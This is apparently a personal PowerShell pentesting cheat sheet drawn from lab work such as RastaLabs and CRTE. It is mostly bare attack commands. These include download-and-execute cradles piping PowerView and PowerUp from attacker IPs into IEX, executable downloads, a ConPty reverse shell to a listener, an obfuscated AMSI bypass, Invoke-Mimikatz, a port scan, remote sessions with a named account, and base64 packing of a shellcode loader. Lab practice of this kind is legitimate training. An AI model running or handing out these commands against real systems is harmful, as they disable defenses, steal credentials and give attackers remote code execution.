 * https://github.com/samratashok/nishang

```
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass
```

* PS-Run with output
```
& .\hidden-test.exe 2>&1
```
* from ps-shell
```
Start-Process notepad.exe
```

## PSRemoting
```
Enter-PSSession -ComputerName WS05.RASTALABS.LOCAL -Credential RASTALABS.LOCAL\NGODFREY
```
```
(new-object system.net.webclient).downloadstring('http://192.168.99.2/powerview.ps1') | IEX
invoke-webrequest http://10.10.16.29:8080/dazzleUP.exe -outfile dazzleUP.exe
invoke-webrequest http://10.10.16.14:8080/hidden-test.exe -outfile C:\windows\temp\test.exe
```
## Port Scan
```
80,8080,445,139,135,3389,1433,5985,47001 | % {echo ((new-object Net.Sockets.TcpClient).Connect(“10.10.16.29”,$_)) “Port $_ is open!”} 2>$null
```

## Test AV
```
Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
Invoke-Mimikatz
```
## Create service
```
New-Service -Name "gruntsvc" -BinaryPathName '"C:\WINDOWS\System32\svchost.exe -k netsvcs"'
Start-Service -Name 'gruntsvc'
Stop-Service -Name 'gruntsvc'
Restart-Service -Name 'gruntsvc'
$service = Get-WmiObject -Class Win32_Service -Filter "Name='gruntsvc'"
$service.delete()
```

## read/write
```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell 10.0.0.2 3001
Get-Content -Path 'C:\Demo\test.txt' -Encoding Byte
```
```
$a = [IO.File]::ReadAllText("C:\Users\John\Desktop\test.txt")
[system.Convert]::toBase64string([System.text.encoding]::Unicode.getbytes($a))
```
```
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($b))
[System.IO.File]::WriteAllText("Z:\backup\PTA\CRTE\tgt-sqladmin",$b)
```
```
$filename = "C:\tools\donut\loader.bin"
[system.Convert]::toBase64string([IO.File]::ReadAllBytes($filename)) | Clip
```


## AMSI
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

## PS -- need admin
```
Get-Process | Format-Table Id,Username,Name,si,FileName -AutoSize
```

## Applocker
```
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## From service name to display name
powerpick Get-Service –Name "MSSQL*"

## DownloadExec
```
((New-Object Net.WebClient).DownloadString('http://10.10.16.29:8080/PowerUp.ps1')) | iex 
((New-Object Net.WebClient).DownloadString('http://10.10.16.29:8080/PowerUpSQL.ps1')) | iex 
((New-Object Net.WebClient).DownloadString('http://10.10.16.29:8080/Find-PSRemotingLocalAdminAccess.ps1')) | iex 
```

## Net Version
```
get-childitem -path "HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

## Formating
```
Format-List *
```

## which
```
get-command
```

## if x64
```
[Environment]::Is64BitProcess
```

